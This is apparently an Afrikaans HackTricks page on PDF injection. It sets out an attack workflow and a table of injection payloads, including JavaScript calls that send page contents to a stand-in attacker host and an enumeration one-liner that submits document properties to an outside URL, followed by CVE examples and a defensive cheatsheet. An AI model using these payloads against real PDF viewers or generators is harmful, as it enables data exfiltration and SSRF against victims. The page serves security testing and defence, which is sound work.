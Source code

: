 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**As jou invoer binne 'n PDF-lêer weerspieël word, kan jy probeer om PDF-data in te spuit om JavaScript uit te voer, SSRF te doen of die PDF-inhoud te steel.**
PDF-sintaksis is uiters toelaatbaar – as jy uit die string of woordeboek wat jou invoer inkorporeer kan breek, kan jy heeltemal nuwe voorwerpe (of nuwe sleutels in dieselfde voorwerp) byvoeg wat Acrobat/Chrome graag sal ontleed.
Sedert 2024 het 'n golf van fout-bounty verslae gewys dat *een onontsnapte haakie of terug-skuif genoeg is* vir volle skripuitvoering.

## TL;DR – Moderne Aanval Werkvloei (2024)
1. Vind enige gebruiker-beheerde waarde wat uiteindelik binne 'n **(haakie string)**, `/URI ( … )` of `/JS ( … )` veld in die gegenereerde PDF eindig.
2. Spuit `) ` (sluit die string) gevolg deur een van die primitiewe hieronder en eindig met 'n ander opening haakie om die sintaksis geldig te hou.
3. Lewer die kwaadwillige PDF aan 'n slagoffer (of aan 'n agtergronddiens wat outomaties die lêer weergee – wonderlik vir blinde foute).
4. Jou payload loop in die PDF-kijker:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (sien CVE-2024-4367)
* Acrobat → Volledige JavaScript API (kan arbitrêre lêerinligting met `this.getPageNthWord` ekfiltreer)

Voorbeeld (annotasie skakel kaping):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*Die eerste `)` sluit die oorspronklike URI-string, ons voeg dan 'n nuwe **Action** woordeboek by wat Acrobat sal uitvoer wanneer die gebruiker op die skakel klik.*

## Nuttige Inspuitingsprimitiewe
| Doel | Payload Snippet | Aantekeninge |
|------|-----------------|-------|
| **JavaScript op oop** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Voer onmiddellik uit wanneer die dokument oopgemaak word (werk in Acrobat, nie in Chrome nie). |
| **JavaScript op skakel** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Werk in PDFium & Acrobat as jy 'n `/Link` annotasie beheer. |
| **Blind data exfiltrasie** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Kombineer met `this.getPageNthWord` binne JS om inhoud te steel. |
| **Server-Side SSRF** | Dieselfde as hierbo, maar teiken 'n interne URL – wonderlik wanneer die PDF deur agterkant-dienste wat `/URI` eerbiedig, gerender word. |
| **Lynbreek vir nuwe objekte** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | As die biblioteek jou toelaat om nuwe-lyn karakters in te spuit, kan jy heeltemal nuwe objekte skep. |

## Blind Enumerasie Truuk
Gareth Heyes (PortSwigger) het 'n een-liner vrygestel wat elke objek binne 'n onbekende dokument tel – handig wanneer jy nie die gegenereerde PDF kan sien nie:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
Die kode herhaal die Acrobat DOM en maak uitgaande versoeke vir elke eienskap/waarde paar, wat jou 'n *JSON-agtige* dump van die lêer gee. Sien die witpapier “Portable Data **ex**Filtration” vir die volledige tegniek.

## Regte-Wêreld Foute (2023-2025)
* **CVE-2024-4367** – Arbitraire JavaScript uitvoering in Firefox se PDF.js voor 4.2.67 het die sandbox omseil met 'n vervaardigde `/JavaScript` aksie.
* **Bug bounty 2024-05** – Groot fintech het kliënt-gelewer faktuur notas toegelaat wat in `/URI` beland het; verslag betaal $10k na 'n gedemonstreerde SSRF na interne metadata gasheer met `file:///` URI.
* **CVE-2023-26155** – `node-qpdf` opdrag-inspuiting via ongesuiwerde PDF pad toon die belangrikheid van die ontsnapping van terugskrape en hakies selfs *voor* die PDF laag.

## Verdedigende Cheatsheet
1. **Moet nooit rou gebruikersinvoer** binne `(`…`)` strings of name saamvoeg nie. Ontsnap `\`, `(`, `)` soos vereis deur §7.3 van die PDF spesifikasie of gebruik hex strings `<...>`.
2. As jy skakels bou, verkies `/URI (https://…)` wat jy *ten volle* URL-kodeer; blokkeer `javascript:` skemas in kliëntkykers.
3. Verwyder of valideer `/OpenAction`, `/AA` (addisionele aksies), `/Launch`, `/SubmitForm` en `/ImportData` woorde wanneer jy PDF's na-verwerk.
4. Aan die bedienerkant, render onbetroubare PDF's met 'n *headless converter* (bv. qpdf –decrypt –linearize) wat JavaScript en eksterne aksies verwyder.
5. Hou PDF kyker op datum; PDF.js < 4.2.67 en Acrobat Reader voor Julie 2024 patches laat triviale kode uitvoering toe.

## Verwysings
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (opgedateer Mei 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (Apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
